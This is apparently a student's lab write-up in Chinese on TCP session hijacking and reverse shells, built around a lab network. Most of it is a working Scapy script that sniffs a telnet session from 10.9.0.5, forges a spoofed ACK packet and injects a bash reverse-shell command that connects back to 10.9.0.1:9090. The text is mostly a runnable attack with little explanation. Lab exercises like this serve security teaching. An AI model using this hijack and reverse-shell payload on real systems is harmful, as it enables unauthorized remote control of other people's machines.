

# TCP Hijacking

## 任务 3&4：TCP 会话劫持&创建反向 shell

直接通过自动化手段发起攻击，我们得到网桥名称：



编写 Python 程序：

```python
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
    ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
    tcp = TCP(sport=pkt[TCP].dport, dport=23,
              flags="A",
              seq=pkt[TCP].ack, ack=pkt[TCP].seq+1)
    data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\n\0"
    pkt = ip/tcp/data
    ls(pkt)
    send(pkt, verbose=0)

f = f'tcp and src host 10.9.0.5'
pkt = sniff(iface='br-8d1afa91844e', filter=f, prn=spoof_pkt)
```

运行劫持 telnet 会话窗口可以得到反向shell：


